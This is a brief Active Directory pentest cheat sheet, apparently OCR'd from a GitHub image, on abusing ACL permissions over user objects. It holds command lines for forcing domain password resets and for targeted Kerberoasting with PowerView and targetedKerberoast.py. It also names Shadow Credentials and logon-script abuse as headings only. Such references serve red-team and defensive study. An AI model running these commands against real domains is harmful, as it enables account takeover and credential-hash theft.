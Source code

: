 # ACLs/ACEs permissions on User

### ForceChangePassword

 - net user USER PASSWORD /domain

 - net rpc password USER PASSWORD -S DC_FQDN

### GenericAll / GenericWrite

#### 1) Change Password

 - net user USER PASSWORD /domain

#### 2) Targeted Kerberoasting (add SPN)

 - targetedKerberoast.py -d DOMAIN -u USER -p PASS (TGS Hash)

 - Set-DomainObject -Identity TARGET_USER -SET @(serviceprincipalname='nonexistent/WHATEVER') (Powerview)

 - Get-DomainSPNTicket -SPN nonexistent/WHATEVER (Powerview)

#### 3) Logon Script (Access)

#### 4) add Key Credentials (Shadow Credentials)
